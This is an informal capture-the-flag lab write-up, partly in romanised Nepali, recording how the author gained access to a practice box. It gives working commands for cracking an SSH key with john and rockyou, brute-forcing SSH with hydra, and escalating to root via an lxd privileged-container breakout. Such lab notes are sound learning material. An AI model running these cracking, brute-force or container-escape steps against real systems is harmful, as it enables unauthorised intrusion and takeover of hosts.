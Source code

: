 So at first we did a half scan to check

we got port 22 ra 80

then I went to the site on http://

then we saw a page with some world of warcraft game like about page

I checked the /robots.txt file

and there were three files

I downloaded all of em

one was a image

ran some exiftool and stats and binwalk but no avail

then other was a manifesto? ani other was a dict list which might be helpful

then I ran ffuf on it and got some juicy directories

juicy secret.txt

which was a rsa recret key

used ssh2john to map it out to a john readable

then used john against the

2012 john hash dict_lists.txt -show

nothing

2018 john hash.hash -w=/usr/share/wordlists/rockyou.txt

found passwd

user nai thaha bhayena so I tried hydra

2022 hydra -L /usr/share/wordlists/seclists/Usernames/usernames.txt -p letmein ssh://10.10.165.136 -V\n

tried a few usernames wordlist , nothing so I tried the trusty rocku

maybe I can find something on the web web ma ni herdai gare eso eta uta

damn yei index.html ma john bhanne lekhya raixa

<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->

damnn

we are innn

damn sudo -l ma passwd nai wrong re

lets try linpeas

id haneko

uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

yoyo aayo

adm bata log padhe sabai hydra ko err logs raixa lol

sudo ma passwd nai arkai raixa

3 tries ma reset

lxd bata containeer breakout garna milxa raixa

git ni raixa tyo machine ma

last slow raixa

locally nai halxu

lol ma ta unzip gardai basdai thiye

mildaina raixa

```jsx
**lxc image import ./alpine-vX.tar.gz --alias myimage
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/rootfs recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh

cd /mnt/rootfs
chroot /mnt/rootfs /bin/bash**

```

hane ani bhayo

lol

kina bhayo aba herxu